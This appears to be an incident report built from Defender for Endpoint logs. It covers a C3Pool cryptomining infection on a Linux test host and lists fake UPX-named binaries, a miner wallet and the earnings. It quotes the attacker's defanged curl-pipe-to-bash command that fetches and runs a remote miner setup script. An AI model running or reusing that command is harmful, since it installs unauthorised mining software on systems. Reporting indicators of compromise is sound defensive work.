  
 
 
 
 
 
 
 

 
Crypto-Mining C3Pool and UPX Variants
Found in logs using Defender for Endpoint:
Sample File Names:
•	upxvmyizov
•	efzkrhkupx
•	pjmupxbstu
Related Tools C Indicators:
•	upxvmyizov: Fake UPX binary mimicking command-line tools (netstat, ls, echo, ifconfig, sh)
•	Custom binary chains:
•	/usr/bin/upxvmyizov netstat -an
/usr/bin/upxvmyizov echo "find"
./ygljglkjgfg0 (obfuscated ELF payload)

 
 
Confirmed Wallet Identified
•	Wallet Address (C3Pool miner):
4B7vD4PrcGdES1grKPBH5jbsh4SgknSzkFFRHxWMqux7bJrieQoawCiFnd36wKTPtAUXJLeQ    BZWKRKza7qJaQscx2kCCrZo
Detected:
Feb 23, 2025 — Host: linux-vuln-test-jonz — User: root
Method:
Mining script fetched and executed:
curl -s -L hxxp://download[.]c3pool[.]org/xmrig_setup/raw/master/setup_c3pool_miner[.]sh | bash - s <WALLET>
 
Mining Earnings


Summary of Findings
This wallet is used with C3Pool miner.
We checked the mining dashboard using the wallet address and found:
•	Total paid: 20.77 XMR
•	Unpaid balance: 0.016 XMR
•	Total mined: around 20.78 XMR (worth about $2,800 USD)
